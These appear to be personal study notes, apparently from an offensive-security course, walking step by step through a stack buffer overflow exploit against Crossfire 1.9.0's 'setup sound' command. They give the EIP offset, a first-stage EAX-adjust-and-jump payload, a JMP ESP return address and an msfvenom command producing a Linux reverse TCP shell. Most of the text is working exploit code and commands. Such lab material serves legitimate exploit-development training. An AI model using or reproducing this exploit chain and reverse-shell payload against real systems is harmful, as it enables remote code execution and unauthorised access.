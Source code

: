 

Must discover vulnerability within a code (without access to its source)  
Much more difficult if code's compiled with [EIP control protections](Control%20Protections.md)  
	DEP, ASLR, Stack Canaries
Create our input in a way to gain conrtol of critical (EIP) registers  
Manipulate memory to gain reliable RCE  
  
  
3 Primary techniques for ID'ing flaws in apps:  
- Source code review  
- Reverse Engineering  
- Fuzzing (Entering in various input to see how an app will handle unexpected/ malformed data and how it might crash)  
If an app crashes due to malformed input data, it may indicate the presence of a potentially exploitable vuln.  
  
  
  
Debugger used: [EDB](EDB.md) Inspired by **Ollydbg**  
  

### Setup
Crossfire 1.9.0 is vulnerable to a network-based buffer overflow when passing a string of more than 4000 bytes to the **setup sound** command.  
  
  
- cd /usr/games/crossfire/bin/ > ./crossfire  
  
- edb  
  
- File > Attach > Filter for _crossfire_ > Select > OK > Run  
  
  
### Rundown:
The difference here is that while we want our EIP to point to the buffer in the ESP, the ESP only holds the last 7 bytes of the buffer.  

The EAX holds the beginning of the buffer, but also contains the _“setup sound”_ command string, so:  

We'll need to adjust the size of EAX and jump to _after_ the command string in order to land neatly w/in our buffer.  
  
  
### Process:

1. **Replicate** the crash  
```bash
padding = "\x41" * 4379  
  
buffer = "\x11(setup sound " + padding + "\x90\x00#"
```

_buffer_ variable requires specific hex values at the beginning and at the end, as well as the “setup sound” string, in order for the app to crash.  
  
Initial PoC builds a malicious buffer including the “setup sound” command, connects to the remote service on port 13327, and sends the buffer.  
  
  
2. **Find EIP**  
- Use pattern to determine where EIP sits:  
```bash
msf-pattern_create -l 5000
```

python script:  
```python
junk = "<pattern>"
```

- Determine offset:  
```bash
msf-pattern_offset -l 5000 -q 46367046  
[*] Exact match at offset 4368
```
 
- Test:  
```bash
padding = 'A' * 4368  
eip = 'B' * 4  
  
inputBuffer = padding + eip
```

  
3. **Locate space** for shellcode.  
- Since the **ESP** points to the end of the buffer w/ only 7 bytes of space available  
	- Determined from the pattern created by msf - _p7Fp8Fp_  
	- We need to find another register for our payload.  
	- We can test for this by increasing the buffer results in a different crash which doesn't overwrite the EIP.  
  
![[shellcodebytes.png]]
  
- Looking at the other registers, we can see the EAX is pointing to the beginning of the buffer/ pattern 
![[EAXlinbo.png]]
  
- Only problem is that the EAX register also includes the _“setup sound”_ command string which could mangle execution.  
  
3) Looking at the opcodes for the _“setup sound”_ string,:  
- We see _‘s'_ (**\\x73**) and _‘e’_ (**\\x65**) --- first two letters of _“setup”_ --- which signals a [conditional jump](OpCodes.md) instruction - **JAE**  
- We see ‘_t_’ (**\\x74**) and _‘u’_ (**\\x75**) --- next two letters of _“setup”_ --- which signals another conditional jump instruction - **JE**  
- The jumps seem to be leading into our controlled buffer, so going to EAX may work for us.  
	- Not elegant, so we'll avoid.  
  
4) Rather, we'll use a first-stage payload into the 7-byte limited space provided by the ESP register (end of our buffer)  
	- Used to align the EAX register so that it points to our buffer right after the _“setup sound”_ string & jump to that location in order to skip those conditional jumps  
  
5) To do this, we'll need to add 12 bytes (\x0C) to **EAX** to account for the 12 chars in _“setup sound”_  
	- Use **ADD** assembly instruction  
	- Then proceed to **JMP** to the memory pointed to by **EAX**  
		- use [msf-nasm](msf-nasm_shell.md) for propper opcodes.  
			- 0x83C00C & FFE0  
			- Only takes up 5 bytes of memory, so we'll have to pad w/ **nops** by 2 bytes  
  
6) Updated script:  
```bash
padding = 'A' * 4368  
eip = 'B' * 4  
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"  
  
buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"
```


4. **Find a Return** Address  
- Using the _OpcodeSearcher_ plugin to discover a **JMP ESP** instruction  
	- Select code section where **crossfire** app is mapped  
	- Switch _Jump Equivalent_ to **ESP -> EIP**  
	- Find 
	![[opcode.png]]

- Add a breakpoint at the JMP ESP address  
	- Use _BreakpointManager_ plugin  
	- Updating the script to include the return addr:  
```bash
padding = "A" * 4368  
eip = "\x96\x45\x13\x08"  
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"  
  
buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"
```

5. Get a **shell**
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<localIP> LPORT=443 -b "\x00\x20" -f py -v shellcode
```
  
- Update:  
	- Because the ESP will jump to the beginning of our buffer in EAX (after expanding by 12 bytes and jumping past the _“setup sound”_ command), we need to add the **nop** and **payload** _before_ the padding  
```bash
shellcode = ""  
shellcode += "......"  
  
nop = "\x90" * 8  
  
padding = "\x41" * (4368 - len(nop) - len(shellcode))  
eip = "\x96\x45\x13\x08"  
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"  
  
buffer = "\x11(setup sound " + nop + shellcode + padding + eip + first_stage + "\x90\x00#"
```


- The debugger will cause issues as it's catching SIGCHLD events generated when aomething happens to our spawned child process from our shell (exiting, crashing, stopping, etc)  
	- After running the exploit, the **nc** connection occurs, but typing in any commands will show it's stuck.  
	- Going back to **edb**, the app is paused as there's been a Debug Event. Click Run to trigger the Debug Event popup from **edb**.